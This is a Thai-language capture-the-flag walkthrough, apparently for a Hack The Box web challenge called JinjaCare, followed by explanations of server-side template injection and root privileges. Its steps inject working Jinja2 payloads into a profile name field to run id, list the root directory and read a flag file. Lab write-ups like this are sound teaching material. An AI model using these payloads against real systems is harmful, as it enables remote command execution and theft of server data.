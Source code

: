 Hi, Can you speak Thai ?
Yes, I can speak Thai.
มา วันนี้เราจะมาทำข้อ JinjaCare หมวด Web ระดับ Very easy

Step 1 สร้างบัญชี
เขาจะให้ IP มา คือ 94.237.121.100:50594 จากนั้นเราก็เข้าไปที่ Sign In แล้วเลือก create a new account ในส่วนของข้อมูลที่ใช้สมัคร เราสามารถสมมติขึ้นมาเองได้เลย

Step 2 49
2.1 ไปที่ Personal Info ใส่วันเดือนปีเกิด ในส่วนนี้เราสามารถปลอมแปลงได้ 
2.2 ไปที่ Full Name เปลี่ยนข้อมูลจากชื่อเป็น {{7*7}} กด Save Changes
2.3 กลับไปที่ Dashboard กด Download Certificate
2.4 สังเกตตรง Name มันจะเป็น 49 ถ้าไม่ใช่ 49 ให้กลับไปดูตรง Full Name ในหน้า Personal Info ใหม่

Step 3 id
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution
```
นี่คือลิงก์เกี่ยวกับ Server Side Template Injection
3.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{7*7}}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
3.2 กลับไปที่ Dashboard กด Download Certificate
3.3 สังเกตตรง Name มันจะเปลี่ยนเป็น uid=0(root) gid=0(root) groups=0(root)

Step 4 ls
4.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }} 
```
เป็น 
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
4.2 สังเกตตรง Name มันจะเปลี่ยนเป็น app bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

Step 5 cat flag.txt
5.1 ไปที่ Personal Info และไปที่ Full Name เปลี่ยนข้อมูลจาก
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls /').read() }}
```
เป็น
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```
5.2 สังเกตตรง Name มันจะเปลี่ยนเป็น HTB{XXXXX}
XXXXX ไม่ใช้ flag นะ คือปิดไว้ จะได้ทำเอง

อธิบาย SSTI
- SSTI หรือ Server-Side Template Injection คือช่องโหว่ที่เกิดขึ้นเมื่อแอปพลิเคชันนำข้อมูลจากผู้ใช้ไปใส่ลงใน template ของฝั่งเซิร์ฟเวอร์โดยตรง ทำให้ข้อความนั้นถูกตีความหรือประมวลผลเป็นโค้ดของ template engine แทนที่จะเป็น "ข้อมูล" แบบนิ่ง (literal) ผลคือผู้โจมตีสามารถทำให้ template engine ประมวลผลนิพจน์ที่เขาส่งมาผ่านอินพุต และนั่นอาจนำไปสู่การเปิดเผยข้อมูลภายใน (ข้อมูลความลับ) หรือ การรันโค้ดบนเซิร์ฟเวอร์ (RCE) ขึ้นอยู่กับความสามารถของ engine
- Template engine คือ ซอฟต์แวร์ที่ช่วยให้นักพัฒนาเว็บสามารถแยกส่วนของโค้ด HTML ออกจากข้อมูลแบบไดนามิกได้ โดยจะประมวลผลเทมเพลตและแทนที่ตัวแปรต่างๆ ด้วยข้อมูลจริงก่อนที่จะสร้างเป็น HTML สุดท้าย การทำเช่นนี้ช่วยเพิ่มความสามารถในการอ่าน, นำโค้ดกลับมาใช้ใหม่, และจัดการโค้ดให้ง่ายขึ้น
- uid=0(root) gid=0(root) groups=0(root) มันหมายความว่า กระบวนการหรือเชลล์นั้นกำลังรันด้วยสิทธิ์ของผู้ใช้ root (ผู้ดูแลระบบ)
  อธิบายแต่ละส่วนแบบชัด ๆ
  uid=0(root) — UID (user identifier) = 0 ซึ่งตามมาตรฐานคือ ผู้ใช้ root (superuser)
  gid=0(root) — GID (group identifier) = 0 ซึ่งคือกลุ่ม root
  groups=0(root) — รายชื่อกลุ่มที่ผู้ใช้นั้นเป็นสมาชิก (ในที่นี้เป็นเพียงกลุ่ม root)
  ความหมายเชิงปฏิบัติ
  ถ้าคุณเห็นสตริงนี้สำหรับเชลล์หรือ process แปลว่า process นั้นมีสิทธิ์เต็ม (privileged) สามารถอ่านหรือเขียนไฟล์สำคัญของระบบ, เปลี่ยนการตั้งค่าระบบ, ติดตั้ง/ลบแพ็กเกจ, เปลี่ยนสิทธิ์ผู้ใช้ ฯลฯ โดยสรุปคือสามารถทำอะไรก็ได้บนเครื่อง (administrator powers)
  เป็นสถานะที่อันตรายถ้ากำลังรันโปรแกรมไม่เชื่อถืออยู่ใน context นี้ เพราะจะทำให้มัลแวร์หรือคำสั่งผิดพลาดทำความเสียหายได้มาก
- ถ้าแอปเอา "{{7*7}}" เข้าไปและ engine ประมวลเป็น 49 แปลว่าระบบตีความข้อมูลเป็นโค้ด นี่ไม่ใช่การปฏิบัติต่อข้อมูลแบบนิ่งและเสี่ยงเกิด SSTI

ศัพท์น่าสงสัย
"ข้อมูล" แบบนิ่ง (literal) คือ ค่าข้อมูลที่ถูกกำหนดไว้อย่างชัดเจนและคงที่ในโค้ดหรือเทมเพลตนั้น ๆ โดยตรง ไม่ใช่ค่าที่ได้จากการคำนวณ ตัวแปร หรือการดึงข้อมูลจากแหล่งภายนอก
ลักษณะของข้อมูลแบบนิ่ง (Literal Data) ข้อมูลแบบนิ่งจะถูกตีความตามที่เห็น โดยไม่ต้องมีการประมวลผลหรือค้นหาเพิ่มเติม มักเป็นประเภทข้อมูลพื้นฐาน เช่น Literal String, Literal Number เป็นต้น
ตัวอย่าง:

ลิงก์ข้อมูลเพิ่มเติม
1. Template engine
```
https://medium.com/@itz.dhruv/comprehensive-guide-to-template-engines-in-node-js-with-express-c953a47dfa9d
```
2. ChatGPT และ Gemini สามารถนำข้อมูลไปให้มันขยายความได้
